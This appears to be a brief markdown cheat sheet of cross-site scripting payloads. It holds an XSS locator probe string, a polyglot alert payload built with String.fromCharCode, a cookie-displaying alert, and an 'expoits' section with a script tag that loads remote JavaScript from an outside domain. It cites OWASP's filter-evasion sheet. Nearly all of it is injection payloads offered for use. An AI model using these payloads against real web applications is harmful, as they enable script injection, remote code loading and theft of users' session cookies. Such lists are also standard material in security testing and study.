 # xss
### xss locator
```
"';!--"<XSS>=&{()}
```

```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//"; alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

### expoits

```
<script src=http://peniscorp.com/topkek.js>
```

```
<script>alert(document.cookie)</script>
```

### references
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
